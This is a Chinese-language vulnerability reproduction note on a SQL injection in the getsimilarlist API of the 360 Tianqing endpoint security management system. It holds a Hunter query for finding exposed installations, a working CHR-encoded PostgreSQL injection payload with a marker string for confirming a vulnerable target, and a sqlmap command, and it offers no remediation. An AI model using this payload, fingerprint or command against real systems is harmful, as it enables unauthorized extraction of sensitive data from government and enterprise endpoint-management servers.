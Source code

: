 # 360天擎终端安全管理系统getsimilarlist存在SQL注入漏洞

# 一、漏洞简介
天擎终端安全管理系统是面向政企单位推出的一体化终端安全产品解决方案。该产品集防病毒、终端安全管控、终端准入、终端审计、外设管控、EDR等功能于一体，兼容不同操作系统和计算平台，帮助客户实现平台一体化、功能一体化、数据一体化的终端安全立体防护;奇安信360天擎getsimilarlist存在SQL注入漏洞，攻击者可通过此漏洞获取敏感信息。

# 二、影响版本
+ 360天擎终端安全管理系统

# 三、资产测绘
+ hunter`app.name=="天擎终端安全管理系统"`
+ 特征

![1699415110944-92dd0793-44ec-4b3a-8b0c-cddf0465a695.png](./img/K-Fg9AeJYyC3cDpF/1699415110944-92dd0793-44ec-4b3a-8b0c-cddf0465a695-289858.png)

# 四、漏洞复现
响应中存在`qzbkq1qpzzq`表示可能存在漏洞

```plain
/api/client/getsimilarlist?status[0,1]=(CAST((CHR(113)||CHR(122)||CHR(98)||CHR(107)||CHR(113))||(SELECT (CASE WHEN (8327=8327) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(122)||CHR(122)||CHR(113)) AS NUMERIC))&status[0]=1
```

![1699415273715-cb428a2e-00fe-4bfd-ac82-8b24b00ae99e.png](./img/K-Fg9AeJYyC3cDpF/1699415273715-cb428a2e-00fe-4bfd-ac82-8b24b00ae99e-130863.png)

sqlmap

```plain
python3 sqlmap.py  -u "https://xx.xx.xx.xx/api/client/getsimilarlist?status[0,1]=1&status[0]=1" --batch
```

![1699415337786-67a38012-b2b5-492d-a8da-5dd43f15f543.png](./img/K-Fg9AeJYyC3cDpF/1699415337786-67a38012-b2b5-492d-a8da-5dd43f15f543-099829.png)



> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ll2p6g6smkyvov6w>
